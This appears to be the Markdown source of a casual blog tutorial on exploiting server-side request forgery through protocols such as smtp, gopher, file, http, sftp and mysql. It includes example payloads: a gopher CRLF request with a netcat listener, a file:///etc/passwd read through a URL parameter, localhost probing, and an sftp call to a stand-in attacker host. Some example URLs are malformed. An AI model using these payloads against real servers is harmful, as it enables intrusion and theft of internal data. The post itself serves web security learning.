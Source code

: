 ```yaml
---
layout: post
published: true
title: Breaking the ssrf protocol Part:3
tags:
 - ssrf
 - web pentesting
 comments: true

---
```


# protocol and it's types
hey folks? what’s up hope you are well in pandemic First of all i want to apologize for writing article lately because i was busy in making project in python 3soon I will release my tool stay tuned I am not here to advertise my tool XD nor you to see my adverstisment. So in this section i will cover protocol exploitation with ssrf we can exploit protocols like gopher,http,mysql,intranet,smtpetc. to attack on web application and stealing data and abuse web application
This section and upcoming section gonne be on advance level of ssrf if you have any concept related to ssrf first clear it via previous two parts
before diving into the exploiting protocols let’s clear about basic definition and working of these protocol There are lots of protocols but as you know i hate long articles so i cover up only main protocols definition and rest of protocols i leave on you to resarch :)
Protocols And Its Types
Basically what are protocols? protocols are nothing it’s just a set of rules for exchanging data. There are many protocols available for transferring files(ftp), for mailing(smtp), for calling(voip) etc. are used since this article is on exploiting ssrf we will talk about those protocls which are abused by ssrf for exploiting web application

# Exploitation

let’s break these protocols with the help of ssrf ^_^
SMTP(simple mail transfer protocol)- for sending,receiving email
thanx to this guy we have a unique way for exploiting smtp
Probably an obvious SSRF trick for pros but I just figured out:)
```
1. cononnect with SSRF on smtp localhost:25
2 from the first line get the internal domain name 220 http://blabla.internaldomain.com ESMTP Sendmail
3 search http://internaldomain.com on github, find subdomains
4 connect
there are other various techniques for exploiting smtp like creating a payload and host it on server then send mail you can read awesome article
```

2. gopher -
as we all know gopher is very old protocols used for fetching files on webserver but it got very very old since its not used in wide number of applications but with ssrf we can exploit gopher and http as in previous article i said unsanitized data leads to file fetching but why the files are fetched?? just because of these protocols
Gopher exploitation is very vast we can exploit http,redis,telnet,ftp and many more here is a awesome tool which create payloads for these protocols. We can’t cover all gopher exploitation in this article because it won’t possible if i gonna cover it took very much time and article gonna long and long I will explain all exploitation techniques on gopher separately in next article In this article i will depict basic exploitation of gopher if you wanna learn advance level exploitation of gopher you can read it here
```
$gopher://<host>:<port>/<gopher-path>
$ curl gopher://localhost:2222/hello%0agopher

$ nc -lvvp 2222
listening on [any] 2222 …
connect to [127.0.0.1] from localhost [127.0.0.1] 34116
ello
gopher
```
that’s how we do the basic level exploitation of gopher with crlf (carriage return line and feed) we can use gopher to exploit mysql,redis,http,smtp and so on I will show and explain every techinque in Unique article dedicated to gopher exploitation

3.file://
basically it fetches files from external resources we can exploit it with replacing a file with our payload
**www.justfortest.com?php?fetch=file:///etc/passwd**
it will show content of /etc/passwd file which contains system id of admin and user

4.HTTP(hyper text transfer protocol)
I don’t think that it’s a topic of explain XD let’s come at exploitation
**www.justfortest.com?php?url=http://localhost:21**
it will fetch content of localhost to hacker

5.SFTP(secure file transfer protocol)
protocol used in sending files securely
**www.justfortest.com?url=sftp://evul.com:3333**

6.mysql
protocol used between mysqlclient and server
well, i can’t explain better then this read this article
That’s all for today i covered all various protocol for exploiting with the help of ssrf In next article i will do chaining of ssrf with critical and some low level bugs and if there is any mistake or i forgot to mention any important protocol then let me know in comments :)
